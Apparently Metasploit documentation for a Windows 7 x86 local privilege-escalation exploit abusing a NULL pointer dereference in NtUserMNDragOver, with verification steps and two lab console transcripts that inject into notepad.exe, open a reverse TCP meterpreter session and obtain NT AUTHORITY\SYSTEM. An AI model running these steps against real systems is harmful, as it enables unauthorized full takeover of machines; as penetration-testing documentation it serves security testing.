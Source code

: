 ## Vulnerable Application

This module exploits a NULL pointer dereference vulnerability in the win32 NtUserMNDragOver() syscall.
The NULL pointer dereference occurs because the xxxMNFindWindowFromPoint() function does not effectively check the validity of the tagPOPUPMENU objects it processes before passing them on to MNGetpItemFromIndex(), where the NULL pointer dereference will occur.
This module has been tested against Windows 7 x86 SP0 and SP1. Offsets within the solution may need to be adjusted to work with other versions of Windows, such as Windows Server 2008.

## Verification Steps

1. Get a non-SYSTEM meterpreter session on Windows 7 x86
1. `use exploit/windows/local/ntusermndragover`
1. `set session <session>`
1. `set payload windows/meterpreter/reverse_tcp`
1. `set LHOST <LHOST>`
1. `set LPORT 5555`
1. `exploit`
1. Get a SYSTEM session

## Scenarios

### Windows 7 SP0 x86

```
msf5 exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type                     Information             Connection
  --  ----  ----                     -----------             ----------
  1         meterpreter x86/windows  User-PC\User @ USER-PC  192.168.56.1:4444 -> 192.168.56.15:49158 (192.168.56.15)

msf5 exploit(multi/handler) > use exploit/windows/local/ntusermndragover
msf5 exploit(windows/local/ntusermndragover) > set session 1
session => 1
msf5 exploit(windows/local/ntusermndragover) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(windows/local/ntusermndragover) > set LHOST 192.168.56.1
LHOST => 192.168.56.1
msf5 exploit(windows/local/ntusermndragover) > set LPORT 5555
LPORT => 5555
msf5 exploit(windows/local/ntusermndragover) > run

[*] Started reverse TCP handler on 192.168.56.1:5555
[*] Launching notepad.exe to host the exploit...
[+] Process 3464 launched.
[*] Injecting exploit into 3464 ...
[*] Executing exploit...
[*] Sending stage (176195 bytes) to 192.168.56.15
[*] Meterpreter session 2 opened (192.168.56.1:5555 -> 192.168.56.15:49159) at 2020-04-29 17:14:46 +0800

meterpreter > sysinfo
Computer        : USER-PC
OS              : Windows 7 (6.1 Build 7600).
Architecture    : x86
System Language : en_GB
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```

### Windows 7 SP1 x86

```

msf5 exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type                     Information             Connection
  --  ----  ----                     -----------             ----------
  1         meterpreter x86/windows  User-PC\User @ USER-PC  192.168.56.1:4444 -> 192.168.56.5:49157 (192.168.56.5)

msf5 exploit(multi/handler) > use exploit/windows/local/ntusermndragover
msf5 exploit(windows/local/ntusermndragover) > set session 1
session => 1
msf5 exploit(windows/local/ntusermndragover) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(windows/local/ntusermndragover) > set LHOST 192.168.56.1
LHOST => 192.168.56.1
msf5 exploit(windows/local/ntusermndragover) > set LPORT 5555
LPORT => 5555
msf5 exploit(windows/local/ntusermndragover) > run

[*] Started reverse TCP handler on 192.168.56.1:5555
[*] Launching notepad.exe to host the exploit...
[+] Process 2696 launched.
[*] Injecting exploit into 2696 ...
[*] Executing exploit...
[*] Sending stage (176195 bytes) to 192.168.56.5
[*] Meterpreter session 2 opened (192.168.56.1:5555 -> 192.168.56.5:49158) at 2020-04-29 17:18:00 +0800

meterpreter > sysinfo
Computer        : USER-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x86
System Language : en_GB
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```
